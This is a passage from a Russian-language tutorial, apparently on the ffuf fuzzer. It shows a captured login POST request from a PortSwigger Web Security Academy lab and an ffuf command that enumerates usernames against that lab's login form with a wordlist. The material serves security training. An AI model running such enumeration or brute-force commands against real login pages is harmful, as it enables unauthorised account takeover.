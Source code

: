 При вводе неправильного логина выводится сообщения об ошибке.

![IMG](/assets/images/Tools/IMG_ffuf/1.png){: height="200" .align-center}

При входе в аккаунт на сервер отправляется следующий `POST`-запрос:

```http
POST /login HTTP/2
Host: 0aed007204edce5285af7b550032008d.web-security-academy.net/login
Cookie: session=A2mZdRv71ZtY7jlsemzgtHkRmx8tiDQo
Content-Length: 35
Cache-Control: max-age=0
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a03003203ac78008601588400b10000.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a03003203ac78008601588400b10000.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

username=USERFUZZ&password=PASSFUZZ
```

Можно попробовать перебрать username с помощью следующей команды:

```bash
ffuf -w ~/wordlists/portswigger_login.txt -X POST -d "username=FUZZ&password=x" -u https://0aed007204edce5285af7b550032008d.web-security-academy.net/login
```
